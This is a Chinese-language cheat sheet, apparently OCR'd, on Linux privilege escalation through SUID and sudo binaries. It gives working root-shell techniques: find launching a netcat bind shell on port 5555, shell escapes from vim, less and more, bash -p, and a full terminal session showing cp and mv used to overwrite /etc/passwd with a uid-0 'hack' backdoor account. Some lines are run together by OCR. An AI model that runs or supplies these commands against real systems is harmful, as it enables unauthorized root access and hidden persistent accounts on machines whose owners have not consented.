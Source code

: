 **find**

touch test

**nc** **反弹 shell：**

find test -exec netcat -lvp 5555 -e /bin/sh \;

**vi/vim**

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

:set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

**bash**

**以下命令将以**root**身份打开一个**bash shell**。**

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

**less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

**more**

more /home/pelle/myfile!/bin/bash

**cp**

覆盖 /etc/shadow 或 /etc/passwd

```text
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```text
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**nano**

nano /etc/passwd
